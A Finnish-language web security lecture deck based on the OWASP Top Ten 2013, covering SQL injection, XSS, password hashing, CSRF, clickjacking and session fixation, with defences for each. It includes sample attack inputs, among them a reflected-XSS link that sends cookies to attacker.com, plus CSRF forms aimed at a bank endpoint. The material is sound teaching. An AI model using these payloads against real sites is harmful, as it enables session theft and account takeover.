

Tietoturva
Tietoturva
Webissä voi tietoturva olla pielessä monin eri tavoin
- Selaimen ja palvelimen välissä on joku nuuskimassa
- Selaimessa on korjaamaton tietoturvaongelma
- Selaimen liitännäisessä on tietoturvaongelma
- Käyttäjän salasana on joutunut vääriin käsiin
- Palvelinohjelmistossa on tietoturva-aukko
- Web-sovelluksessa on tietoturva-aukko
- ...
Tänään keskitytään siihen, miten web-sovelluksen kehittäjä voi välttää yleisimpiä tietoturvaongelmia
- Kalvosetti perustuu osittain lähteeseen
OWASP Top Ten Project 2013
- "The OWASP Top Ten represents a broad consensus about what the most critical web application security flaws are."

Injektiohyökkäykset
Injektiohyökkäykset perustuvat virheisiin käyttäjän syöttämän tiedon käsittelyssä
Hyökkääjän tavoitteena on
- saada oma syöte tulkituksi osaksi ohjelmaa, ja
- näin muuttaa ohjelman toimintaa
Injektiohyökkäys kohdistuu aina tiettyyn järjestelmän osaan
- SQL-injektio
- NoSQL-injektio
- Cross-site Scripting (HTML + JavaScript)
- ...
Samoin hyökkäyksen estäminen, syötteen ja ulostulon käsittely riippuu kohdealueesta
SQL-injektio
SQL-injektiot olivat pitkään tavanomaisimpia hyökkäyksiä web-palveluja vastaan
Idea on hyökätä palveluun, joka käyttää SQL-lausekkeiden koostamiseen käyttäjän syötteitä
- Arvataan miten lauseke voidaan koostaa ja muodostetaan syötteet niin, että saadaan aikaan haluttu toiminnallisuus
var q = "SELECT * FROM users WHERE name = '" + name + "';";
teeTietokantakysely(q);Hyökkääjä syöttää käyttäjätunnuksen:
' or 'x' = 'xjolloin kysely hakee kaikki käyttäjät:
SELECT * FROM users WHERE name='' or 'x' = 'x';xkcd.com/327

SQL-injektiolta suojautuminen
Injektiolta voidaan suojautua käsittelemällä kaikki epäluotettavasta lähteestä (mm. käyttäjä) tuleva tieto tarkkaan
Helpointa on käyttää jotain kirjastoa, joka hoitaa käsittelyn
- esim. Sequelize kun käytetään rajapintafunktioita kuten
Model.find()
- esim. Sequelize kun käytetään rajapintafunktioita kuten
Jos SQL-lauseita täytyy muodostaa käsin, on ainakin kaksi vaihtoehtoa:
- escape: muunnetaan syötteen erikoismerkit sellaisiksi, että niitä ei voida
tulkita kielen rakenteiksi
- Esim.
'->\'jne.
- Esim.
- whitelist: vain tietynlaiset syötteet sallitaan
- Esim. käyttäjätunnus saa sisältää vain kirjaimia ja numeroita
- escape: muunnetaan syötteen erikoismerkit sellaisiksi, että niitä ei voida
tulkita kielen rakenteiksi
Samat periaatteet pätevät muihinkin injektiohyökkäyksiin
Cross-site Scripting (XSS)
Cross-site Scripting (XSS) on hyökkäys, jossa ujutetaan ohjelmakoodia (JavaScript) HTML-dokumentin sekaan, jolloin selain suorittaa sen
- Eräänlainen injektio siis tämäkin
Koodi ajetaan selaimen näkökulmasta kohdepalvelun kontekstissa
- Selain tulkitsee koodin olevan peräisin samasta originista kuin kohdepalvelu
- Tällöin hyökkääjän koodi voi mm. tehdä Ajax-kutsuja kohdepalveluun, käsitellä evästeitä, muokata sivua, jne.
XSS-hyökkäykset voidaan jakaa
- pysyviin (persistent)
- ei-pysyviin
Pysyvä XSS
Pysyvässä XSS-hyökkäyksessä hyökkääjä
- tallentaa web-sovelluksen tietokantaan koodin, jonka haluaa injektoida
- ja järjestää niin, että ko. koodi suoritetaan käyttäjän selaimessa
Esimerkiksi jos keskustelupalsta ei ole suojautunut XSS-hyökkäyksiä vastaan voisi hyökkääjä kirjoittaa viestin
<script>alert("böö");</script>
Ei-pysyvä XSS
Ei-pysyvässä XSS-hyökkäyksessä koodi ei tallennu pysyvästi tietokantaan
Hyökkääjä käyttää hyväkseen jotain sellaista syötettä
- jota palvelin käyttää sivun luontiin
- jonka käsittely (erikoismerkit) ei toimi, jolloin
- tulossivuun päästään lisäämään haluttu koodi
Esimerkiksi, sivuston hauissa käytetään query-parametria
q, jota ei tarkisteta kunnolla, mutta käytetään sivun generoinnissa. Hyökkääjä voi nyt jakaa seuraavan linkin uhrilleen:
http://example.com/search.php?
q=<script>document.location=
'http://attacker.com/cookiesteal?'
+document.cookie</script>Ei-pysyvä, DOM-pohjainen XSS
Myös selainpään DOM-manipulointi voi olla altis XSS-hyökkäyksille
Esim. sivu osoitteessa
example.comlukee käyttäjän nimen URL-parametrista ja lisää sen DOM:iin
var pos = document.URL.indexOf("name=");
var name = decodeURIComponent(document.URL.substr(pos+5));
document.write(name);Hyökkääjä voi antaa uhrilleen seuraavan URL:n
http://example.com/?name=<script>alert("böö");</script>XSS:ltä suojautuminen
XSS:ltä suojautuakseen täytyy huomata, että eri HTML-dokumentin osat noudattavat erilaisia jäsennyssääntöjä
- Myös niihin lisättävää epäluotettavaa dataa on kohdeltava eri tavoin
Tavallisin tapaus: epäluotettavan datan lisääminen elementin sisään (
<body>,<div>,<p>, ...):- Riittää
"entity-enkoodata" merkit
&,<,>,",',/ - Esim.
&muotoon&amp;ja<muotoon&lt;jne. - EJS-sivupohjamoottorin
<%= muuttuja %>tekee tämän
- Riittää
"entity-enkoodata" merkit
Attribuutit, esim
<div class="<%= luokka %>">- Jos attribuutit on aina ympäröity lainausmerkein, riittää
enkoodata
" - Jos ei, täytyy enkoodata paljon muutakin
- Erikoisattribuutit
href,src,styleja tapahtumankäsittelijät (esim.onmouseover) ovat vaikeampia
- Jos attribuutit on aina ympäröity lainausmerkein, riittää
enkoodata
XSS Prevention Cheat Sheet kertoo tarkemmin
Salasanojen tallentaminen
Tietovuodon aiheuttamia vahinkoja voi pienentää salakirjoittamalla tietokantaan tallennettu sensitiivinen data
Mikäli mahdollista kannattaa käyttää yksisuuntaista tiivistefunktiota (hash function)
- Mm. salasanojen tapauksessa näin kannattaa ~aina tehdä
- Tällöin web-sovelluksen ylläpitäjäkään ei voi saada selville käyttäjien salasanoja
Toiminta:
- Tallennetaan selväkielisen salasanan sijaan sen tiiviste (hash)
- Aina salasanaa tarkastettaessa lasketaan tiiviste
- ja verrataan tätä tietokantaan tallennettuun tiivisteeseen
Salasanojen tallentaminen
Tiivistefunktio
Tiivistefunktion on oltava sellainen, että
- tiivisteestä ei saa selville alkuperäistä syötettä
- muuta kuin brute force -metodilla joka kestää astronomisen kauan
- törmäyksiä (hash collision) ei tapahdu
- törmäys = kaksi eri syötettä tuottaa saman tiivisteen
- tiivisteestä ei saa selville alkuperäistä syötettä
Esimerkiksi SHA256-funktio täyttää nämä ehdot
- (Luultavasti. Ei ole olemassa tiivistefunktiota joka todistetusti täyttäisi ehdot.)
var crypto = require('crypto');
var sha256 = crypto.createHash('sha256');
sha256.update('salasana').digest('base64');'B1pCGgH+SYS0reSomv7IYfmkNfVLW87W0KDlqHkuUhw='
'B1pCGgH+SYS0reSomv7IYfmkNfVLW87W0KDlqHkuUhw='Sanakirjahyökkäys
Tiivistealgoritmit ovat deterministisiä
- Sama salasana tuottaa aina saman tiivisteen
Vuodetuista salasanojen tiivisteistä on helppo saada yleisimmät salasanat selville ns. sanakirjahyökkäyksellä
- Sanakirjahyökkäyksessä lasketaan yleisempien salasanojen (esim. kaikki suomen tai englannin sanat) tiivisteet
- ja katsotaan löytyykö näitä tiivisteitä vuodetusta salasanatietokannasta
Tiivisteet voidaan laskea ennakkoon
- Tähän tarkoitukseen käytetään usein
rainbow table
-tietorakennetta
- Paljon salasana-tiiviste-pareja voidaan tallentaa tiiviisti
- Ns. rainbow table attack
- Tähän tarkoitukseen käytetään usein
rainbow table
-tietorakennetta
Sanakirjahyökkäys voidaan estää lisäämällä salasanaan suola, salt ->
Salasanojen tallentaminen: suola
Sanakirjahyökkäys voidaan estää lisäämällä salasanaan suola, salt
Suola on satunnainen merkkijono, joka luodaan salasanan luonnin yhteydessä
Suola lisätään salasanaan aina tiivistettä laskettaessa
H = Hash(password + salt)- Kuhunkin tiivisteeseen liittyvä suola on myös tallennettava tietokantaan
- Tarvitaan salasanaa tarkastettaessa
Salasanojen tallentaminen: suola

Scrypt
Helpoiten salasanojen turvallinen tallentaminen onnistunee käyttäen jotain key derivation -funktiota, joka laskee tiivisteen ja lisää suolan automaattisesti
- Esim. Scrypt
Node.js:ssä voi käyttää pakettia scrypt
var scrypt = require('scrypt');
scrypt.hash.config.keyEncoding = 'utf8';
scrypt.hash.config.outputEncoding = 'base64';
scrypt.verify.config.keyEncoding = 'utf8';
scrypt.verify.config.hashEncoding = 'base64';
var h = scrypt.hash('SaLa123', scrypt.params(0.1));
console.log("Hash: " + h);
scrypt.verify(h, 'SaLa123', function(err, result) {
console.log("Salasana oikein? - " + result);
});Cross-site Request Forgery (CSRF)
CSRF-hyökkäyksessä hyökkääjä saa uhrin selaimen lähettämään HTTP-pyynnön hyökkääjän haluamaan kohdepalveluun
Hyökkäys käyttää hyväkseen selaimen ja kohdepalvelun välistä tilatietoa
- Esim. evästeessä oleva istuntotunniste, joka lähetetään pyynnön mukana
Hyökkäys perustuu pyynnön sivuvaikutuksiin
- Hyökkääjä ei (yleensä) näe pyynnön vastausta
CSRF-esimerkki 1
- Osoitteessa
http://pahis.orgon seuraava HTML:
<img src="https://pankki.fi/tyhjennaTili" alt="kuva" />Kuvaa ladatessaan käyttäjän selain tekee HTTP GET-pyynnön kohteeseen
pankki.fi- Mukana kulkee myös mahdolliset
pankki.fi-sivuston evästeet, mm. istuntotunniste
- Mukana kulkee myös mahdolliset
Jos GET-pyynnöllä on sivuvaikutuksia, suoritetaan ne palvelimella
Oikein toteutetulla GET-pyynnön käsittelyllähän ei pitäisi olla sivuvaikutuksia, jolloin tämä hyökkäys ei toimi!
CSRF-esimerkki 2
- Osoitteessa
http://pahis.orgon seuraava lomake, joka käyttäjä huijataan lähettämään
<form action="https://pankki.fi/tyhjennaTili" method="POST">
<input type="submit" value="Katso kissavideo">
</form>POST-pyynnöllä voi olla sivuvaikutuksia, joten tältä suojautumiseen pelkkä HTTP-protokollan noudattaminen ei riitäPUT,DELETEtai monimutkaisempiaPOST-pyyntöjä toisiin origineihin ei oletuksena tehdä suoraan vaan tarvitaan preflight-vaihe- Tällöin ei CSRF myöskään onnistu
CSRF:ltä suojautuminen
CSRF:n kannalta oleellisia ovat pyynnöt...
- joilla on sivuvaikutuksia
- ja joita voidaan tehdä muista origineista
CSRF voidaan estää vaatimalla pyynnössä salainen merkkijono, CSRF token, esimerkiksi HTTP-viestin rungossa
- CSRF token annetaan niille tahoille, joilla on oikeus tehdä pyyntö
- Esim. generoitavan HTML-sivun lomakkeen piilotetussa kentässä
<form ...> <input type="hidden" name="_csrf" value="fj93jf89fjaw89f"> ... </form>
Toinen tapa on tarkastella
RefererHTTP-otsikkokenttää- Ei ihan yhtä hyvä tapa: sivustolla X voi olla haavoittuvuus, jolla
hyökkääjä pystyy luomaan uudelleenohjauksen, jolloin
Referer: X
- Ei ihan yhtä hyvä tapa: sivustolla X voi olla haavoittuvuus, jolla
hyökkääjä pystyy luomaan uudelleenohjauksen, jolloin
CSRF:ltä suojautuminen: Node.js
Node.js + Expressin kanssa voidaan käyttää vaikkapa pakettia
csurfMiddleware generoi ja tarkistaa CSRF tokenin
var csrf = require('csurf');
...
var csrfProtection = csrf();
app.get('/', csrfProtection, function(req,res) {
res.render('etusivu', {csrfToken: req.csrfToken()});
} );
app.post('/tyhjennaTili', csrfProtection, function(req, res) {
...
});- etusivu.ejs
<form action="/tyhjennaTili" method="post">
<input type="hidden" name="_csrf" value="<%= csrfToken %>"/>
<input type="submit" value="Tyhjennä tili"/>
</form>Clickjacking
Clickjacking (UI redressing) -hyökkäyksessä hyökkääjä luo sivuston, jonka käyttöliittymä hämää käyttäjän tekemään (usein klikkaamaan) jossain toisessa web-sivustossa jotain jota hänen ei ollut tarkoitus
Esim. hyökkääjä haluaa sivulleen Facebook-tykkäyksiä
- Hyökkääjä luo kiltin näköisen sivun
- Lisää sinne Facebook-tykkäysnapin
- Luo tykkäysnapin päälle HTML-elementin
- esim. videon play-painike
- Käyttäjä luulee klikkaavansa play-painiketta, mutta oikeasti klikkaus kohdistuu tykkäysnappiin
Paljon erilaisia variaatioita: tykkäysnappi voidaan tehdä näkymättömäksi, liikuttaa automaattisesti kursorin mukana, jne.
Usein hyökkäys toteutetaan upottamalla klikkauksen kohde
<iframe>-elementin sisään- Oletuksena minkä tahansa sivuston voi lisätä
<iframe>:een
- Oletuksena minkä tahansa sivuston voi lisätä
Clickjackingilta suojautuminen
Perustapauksessa voidaan kieltää sivuston näyttäminen
<iframe>-elementissä- Onnistuu
X-Frame-Options-HTTP-otsikolla, esim.X-Frame-Options: DENY - Nykyään suositeltavin tapa lienee käyttää
Content-Security-Policy-otsikonframe-ancestors-direktiiviä, esim.Content-Security-Policy: frame-ancestors
- Onnistuu
Jos halutaan sallia sivuston liittäminen osaksi mitä tahansa muuta sivustoa (esim. tykkäysnappi), clickjackingin estäminen menee huomattavasti hankalammaksi...
- Yksi tapa on avata klikkauksen jälkeen uusi selainikkuna, jossa kysytään vahvistus käyttäjältä
Session Fixation
Session fixation -hyökkäyksessä hyökkääjä houkuttelee uhrin käyttämään hyökkääjän tuntemaa istuntotunnistetta
Esim.
- Hyökkääjä luo kohdepalvelussa istuntotunnisteen
- Hyökkääjä saa uhrin käyttämään tätä istuntotunnistetta
- Esim 1. antamalla tälle linkin
http://example.com/?SID=HYOKKAAJAN_SID - Esim 2.
pahis.herokuapp.comsaa asettaa evästeen domainilleherokuapp.com, jolloin se (SID=HYOKKAAJAN_SID) lähetetään myös domainiinkohdepalvelu.herokuapp.com
- Esim 1. antamalla tälle linkin
- Uhri kirjautuu sisään käyttäen hyökkääjän antamaa istuntotunnistetta
- Nyt hyökkäjä voi ottaa haltuunsa uhrin istunnon
Estäminen: luodaan uusi istuntotunniste käyttäjän kirjautuessa
- Express:
req.session.regenerate(function(err) {})
- Express:
OWASP Top Ten (A1-A4)
OWASPTop10: merkittävimmät web-sovellusten tietoturvaongelmat
A1: Injection
A2: Broken Authentication and Session Management
- Autentikointi- tai istuntotiedot (salasana, istuntotunniste, ...) päätyvät vääriin käsiin
- Syitä voi olla monia. Esim. salaamaton HTTP-yhteys, session fixation, ...
A3: Cross-Site Scripting (XSS)
A4: Insecure Direct Object References
- Suorat, autentikoimattomat viittaukset olioihin
- Esim. Teemun salaiset tiedot saa osoitteesta
https://example.com/teemu/tiedot- Hyökkääjän helppo arvata, että Ahton tiedot saa osoitteesta
https://example.com/ahto/tiedot
- Hyökkääjän helppo arvata, että Ahton tiedot saa osoitteesta
- Estäminen: Jokaisen resurssin autentikointi pitää olla kunnossa
OWASP Top Ten (A5-A6)
A5: Security Misconfiguration
- Palvelimella on konfiguraatiosta johtuva tietoturva-aukko
- Estäminen: kaikki ohjelmiston osat konfiguroitu oikein
- Ei oletussalasanoja, turvattomia oletusasetuksia, stack traceja näkyville, jne.
- Sama konfiguraatio kehitys-, QA- ja tuotantoympäristössä
- Prosessi, joka mahdollistaa tietoturvakorjausten julkaisemisen nopeasti
A6: Sensitive Data Exposure
- Sensitiivisen datan paljastuminen
- Estäminen:
- Älä säilö sensitiivistä dataa turhaan, esim. logeissa
- Salakirjoita sensitiivinen data
- Käytä hyväksihavaittuja salakirjoitusteknologioita
OWASP Top Ten (A7-A10)
A7: Missing Function Level Access Control
- Samoin kuin datan (A4), täytyy toimintojenkin autentikointi olla kunnossa
A8: Cross-Site Request Forgery (CSRF)
A9: Using Components with Known Vulnerabilities
- Käytetään komponenttia jossa on tunnettu haavoittuvuus
- Estäminen: web-palvelimen ylläpitäjän pitää seurata uutisia
käytetyistä komponenteista löytyvistä tietoturvaongelmista ja
asentaa korjaukset nopeasti
- tai luopua haavoittuvaisen komponentin käytöstä
A10: Unvalidated Redirects and Forwards
- Tarkistamattomat uudelleenohjaukset
- Esim.
http://example.com/redirect.jsp?url=evil.com
OWASP Top Ten
Yhteenveto
Käytiin läpi muutama tietoturvaongelma
- Injektiot (ml. XSS)
- CSRF
- Clickjacking
- ym.
Nämä eivät kuitenkaan kata kuin pienen osan mahdollisista tietoturvaongelmista
- Erilaisia mahdollisia tietoturva-aukkoja on ~rajattomasti